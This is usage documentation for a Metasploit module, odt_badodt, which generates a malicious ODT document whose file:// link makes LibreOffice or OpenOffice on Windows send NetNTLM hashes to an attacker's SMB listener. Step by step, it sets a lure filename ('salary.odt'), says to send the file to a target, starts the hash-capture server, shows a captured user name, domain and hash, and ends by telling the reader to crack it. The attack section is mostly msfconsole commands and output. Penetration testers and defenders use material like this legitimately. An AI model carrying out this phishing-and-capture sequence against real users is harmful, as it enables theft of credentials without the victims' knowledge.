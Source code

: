 BADODT Module creates an ODT file which includes a file:// link which points back to a listening SMB capture server.
This module has been tested on both LibreOffice 6.03 /Apache OpenOffice 4.1.5 and upon opening connects to the server
without providing any warning to the user. This allows an attacker the opportunity to potentially steal NetNTLM hashes.

## Vulnerable Application

 - [LibreOffice 6.03](https://www.libreoffice.org/download/download/)
 - [Apache OpenOffice 4.1.5](https://sourceforge.net/projects/openofficeorg.mirror/files/4.1.5/binaries/en-US/Apache_OpenOffice_4.1.5_Win_x86_install_en-US.exe/download)

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use auxiliary/fileformat/odt_badodt```
  4. Customise Options as required
  5. Do: ```run```
  6. A malicious document will then be generated.
  7. Configure auxiliary/server/capture/smb or similar to capture hashes.
  8. Send document to target and wait for them to open.

## Options

**CREATOR**

This option allows you to customise the document author for the new document:
```
set CREATOR New_User
```

**FILENAME**

This option allows you to customise the generated filename:
```
set FILENAME salary.odt
```

**LHOST**

This option allows you to set the IP address of the SMB Listener that the .odt document points to:

```
set LISTENER 192.168.1.25
```

## Scenarios

Install LibreOffice 6.03 or Apache OpenOffice 4.1.5 on a Windows workstation.  (Note: This attack does not work against Mac or Linux versions.)

  ```
  msf5 > use auxiliary/fileformat/odt_badodt 
  msf5 auxiliary(fileformat/odt_badodt) > set FILENAME salary.odt
  FILENAME => salary.odt
  msf5 auxiliary(fileformat/odt_badodt) > set LHOST 192.168.1.25
  LHOST => 192.168.1.25
  msf5 auxiliary(fileformat/odt_badodt) > set CREATOR A_USER
  CREATOR => A_USER
  msf5 auxiliary(fileformat/odt_badodt) > exploit

  [*] Generating Malicious ODT File 
  [*] SMB Listener Address will be set to 192.168.1.25
  [+] salary.odt stored at /root/.msf4/local/salary.odt
  [*] Auxiliary module execution completed
  msf auxiliary(fileformat/odt_badodt) > 
  ```

On an attacker workstation, use a tool to serve and capture an SMB share on port 445, capturing NTLM hashes.  Note that any tool listening on :445 will require superuser permissions:

  ```
  $ sudo ./msfconsole
  msf5 > use auxiliary/server/capture/smb 
  msf5 auxiliary(server/capture/smb) > run
  [*] Auxiliary module running as background job 0.
  msf5 auxiliary(server/capture/smb) >
  [*] Server started.

  msf5 auxiliary(server/capture/smb) >
  ```

Leave the metasploit SMB server listening while the user opens the document.  Upon opening the ODT file, the user workstation will attempt to connect (and authenticate) to the attacker workstation:

  ```
  [*] SMB Captured - 2018-06-06 11:14:23 -0500
  NTLMv2 Response Captured from 192.168.108.171:49180 - 192.168.108.171
  USER:asoto-r7 DOMAIN:WIN-TSD7B7BQKDQ OS: LM:
  LMHASH:Disabled
  LM_CLIENT_CHALLENGE:Disabled
  NTHASH:3910d841a30289ad9876e09321c1099a
  NT_CLIENT_CHALLENGE:0101000000000000a9d923e9f909391957581abc8d91038400000000020000000000000000000000
  ```

Finally, crack the hash to capture the user's credentials.
